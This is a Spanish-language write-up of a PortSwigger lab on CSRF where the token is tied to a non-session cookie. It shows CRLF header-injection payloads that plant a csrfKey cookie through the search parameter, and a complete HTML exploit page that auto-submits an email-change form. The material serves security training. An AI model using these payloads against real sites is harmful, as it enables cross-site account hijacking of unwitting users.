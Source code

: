 ```yaml
---
title: "CSRF where token is tied to non-session cookie"
description: "Laboratorio de Portswigger sobre CSRF"
date: 2025-03-09 10:11:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - CSRF
tags:
  - Portswigger Labs
  - CSRF
  - CSRF where token is tied to non-session cookie
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Este `laboratorio` tiene una `vulnerabilidad de CSRF` en la funcionalidad de `cambio de correo electrónico`. Utiliza `tokens` para intentar prevenir `ataques CSRF`, pero no están completamente `integrados` en el `sistema de gestión de sesiones` de sitio `web`. Para `resolver` el `laboratorio`, debemos usar nuestro `servidor de explotación` para alojar un `documento HTML` que realice un `ataque CSRF` para `cambiar` la `dirección de correo electrónico` del `usuario que la visualiza`. Tenemos `dos cuentas` en la `aplicación` que podemos usar para diseñar nuestro `ataque`. Las credenciales son `wiener:peter` y `carlos:montoya`

---

## Resolución

Al `acceder` a la `web` vemos esto

![](/assets/img/CSRF-Lab-5/image_1.png)

Vemos que tenemos un `cuadro de búsqueda` el cual nos permite hacer `búsquedas`

![](/assets/img/CSRF-Lab-5/image_2.png)

Pulsamos sobre `My account` y nos `logueamos` con las credenciales `wiener:peter`

![](/assets/img/CSRF-Lab-5/image_3.png)

Vemos que hay un `botón` para `cambiar` el `email`

![](/assets/img/CSRF-Lab-5/image_4.png)

Si `recargamos` la `web` y `capturamos` la `petición` con `Burp Suite` vemos que tenemos dos `cookies`

![](/assets/img/CSRF-Lab-5/image_5.png)

Si nos fijamos en la `petición` de `cambiar email`, vemos que `se transmiten tres cookies de sesión y un token CSRF`

![](/assets/img/CSRF-Lab-5/image_6.png)

Si nos dirigimos a la `extensión Logger ++` de `Burpsuite` vemos que al hacer una `búsqueda` se nos `setea` una `cookie`

![](/assets/img/CSRF-Lab-5/image_7.png)

Vemos que `podemos inyectar parámetros en las cookies`

![](/assets/img/CSRF-Lab-5/image_8.png)

Un `CRLF Injection (Carriage Return Line Feed Injection)` es una `vulnerabilidad` que ocurre cuando un atacante puede `inyectar caracteres de control CR (Carriage Return, \r)` y `LF (Line Feed, \n)` en una `aplicación web` o un `sistema que maneja entradas de texto`. Estos caracteres son utilizados para `indicar` el `final` de una `línea` en muchos sistemas, como en los `encabezados HTTP` o `archivos de texto`. En `Hacktricks` [https://book.hacktricks.wiki/en/pentesting-web/crlf-0d-0a.html](https://book.hacktricks.wiki/en/pentesting-web/crlf-0d-0a.html) y en `PayloadsAllTheThings` [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CRLF%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CRLF%20Injection) podemos encontrar varios `payloads` y `ataques`. Con este pequeño `script` de `python` podemos `encodear` los `caracteres` para que sean `válidos` a la hora de llevar a cabo la `inyección`

```
#!/usr/bin/python3

import urllib.parse

crlf_encoded = urllib.parse.quote("\r\n")
print(crlf_encoded)
```

```
# python crlf_encode.py
%0D%0A
```

Otra forma sería usando este `comando` de `linux`, lo que hace es `obtener` el `carácter` en `hexadecimal` con `xxd -p` y luego le añade el `%` para `convertirlo` en `urlencode`

```
# echo -n "\r\n" | xxd -p | sed 's/\(..\)/%\1/g'            
%0d%0a
```

Algunas aplicaciones vinculan el `token CSRF` a una `cookie`, pero no a la `misma cookie` que se utiliza para `rastrear las sesiones`. Esto puede ocurrir fácilmente cuando una aplicación emplea `dos marcos diferentes`, uno para el `manejo de sesiones` y otro para la `protección CSRF`, que `no están integrados entre sí`

Si el `sitio web` contiene algún comportamiento que permita a un `atacante colocar una cookie` en el `navegador de la víctima`, entonces es `posible un ataque`. El atacante puede `iniciar sesión` en la aplicación utilizando su `propia cuenta`, obtener un `token válido` y una `cookie asociada`, aprovechar el `comportamiento de configuración de cookies` para `colocar su cookie` en el `navegador de la víctima` y `proporcionarle su token` en su `ataque CSRF`

El `comportamiento de configuración de cookies` ni siquiera necesita `existir dentro de la misma aplicación web` que la `vulnerabilidad CSRF`. `Cualquier otra aplicación` dentro del `mismo dominio DNS general` puede `potencialmente aprovecharse` para `configurar cookies` en la aplicación que se está atacando, si la `cookie que se controla tiene el alcance adecuado`. Por ejemplo, una `función de configuración de cookies` en `staging.demo.normal-website.com` podría `aprovecharse para colocar una cookie` que se envíe a `secure.normal-website.com`.  Si nos `abrimos` las `herramientas` de `desarrollador` de `Chrome` vemos las `tres cookies`

![](/assets/img/CSRF-Lab-5/image_9.png)

Si `modificamos` la `cookie session` vemos que se nos `desloguea` y nos `asigna` una `nueva cookie session`. Si nos fijamos bien `la cookie csrfKey no se modifica`

![](/assets/img/CSRF-Lab-5/image_10.png)

Si en `/login` nos `abrimos` el `código fuente` vemos que hay un `token CSRF` que `no cambia si modificamos la cookie de sesión`

![](/assets/img/CSRF-Lab-5/image_11.png)

Sin embargo, si `modificamos` la `cookie csrfKey` no nos `desloguea`, pero `cambia` el `valor` del `token CSRF`. Esto nos confirma que la `cookie csrfKey` está `vinculada` al `token CSRF`

![](/assets/img/CSRF-Lab-5/image_12.png)

Si `inspeccionamos` el `código`, vemos cómo se `envía` el `formulario`. Podemos `usar` este formulario como `modelo` para `construir` nuestro propio `payload`

![](/assets/img/CSRF-Lab-5/image_13.png)

Para `explotar` el `CSRF` tenemos usar el `HTTP Header Injection` para `inyectar nuestra cookie csrfKey y su valor en el navegador de la víctima`. También tenemos que inyectar `Samesite: None`, lo que hace que `la cookie se envíe siempre`, `incluso` en `solicitudes` de `terceros`. Desde 2020, los navegadores exigen que las cookies con `SameSite=None` estén configuradas con `Secure`. Si no se incluye el atributo `Secure` junto con `SameSite=None`, `la cookie no se enviará en las solicitudes entre sitios web`

```
/?search=test
\r\nSet-Cookie: csrfKey= FGTaRhyapWI49WkPXFZADJ7YALo5fvW5; SameSite= None
```

```
/?search=test%0D%0ASet-Cookie:%20csrfKey=%20FGTaRhyapWI49WkPXFZADJ7YALo5fvW5%3b%20SameSite=%20None
```

![](/assets/img/CSRF-Lab-5/image_14.png)

Si contamos `Burpsuite Professional` podemos `capturar` una `petición` y pulsar `click derecho > Engagement tools > Generate CSRF PoC` para que nos `genere` un `payload`

![](/assets/img/CSRF-Lab-5/image_15.png)

Se nos genera este `payload`, en la mayoría de ocasiones vamos a tener que `retocarlo` un poco para `mejorar` su `desempeño` o para `hacerlo funcional`

![](/assets/img/CSRF-Lab-5/image_16.png)

En mi caso prefiero `construir` los `payloads` de forma `manual`, para `comprobar` que `funciona` nos dirigimos al `Exploit server` y lo pegamos. El `valor` del `token CSRF` y el de la `cookie csrfKey` son nuestros, `los cuales obtenemos tras loguearnos`. Lo primero que hace este `exploit` es `rellenar el formulario de cambio de email` y `posteriormente mediante una imagen hacemos una petición que le setea al usuario víctima nuestra csrfKey` y `el atributo Samesite=None`, por último, `como esto no es ninguna imagen va a dar un error y va a enviar el formulario`

```
<html>
    <body>
        <form action="https://0a99004204a2b5f980ef26e5006b0048.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@gmail.com">
            <input type="hidden" name="csrf" value="Qi37SXlWY0LZ6Cbz1MXvvaUKgDm0CsNF">
        </form>
        <img src="https://0a99004204a2b5f980ef26e5006b0048.web-security-academy.net/?search=test%0D%0ASet-Cookie:%20csrfKey=%20FGTaRhyapWI49WkPXFZADJ7YALo5fvW5%3b%20SameSite=%20None" onerror="document.forms[0].submit();">
    </body>
</html>
```

![](/assets/img/CSRF-Lab-5/image_17.png)

Una vez hecho esto pulsamos sobre `View exploit` para ver si nos `cambia` el `email` a nosotros y `efectivamente` nos lo `cambia`. Independientemente de como generemos el payload, para `completar` el `laboratorio` debemos pegarlo en el `Exploit server` y pulsar sobre `Delivery exploit to victim`. Debemos tener en cuenta que `dos usuarios no pueden tener el mismo email`, por lo tanto, `debemos cambiar nuestro email o cambiar el email en el payload que enviamos`

![](/assets/img/CSRF-Lab-5/image_18.png)
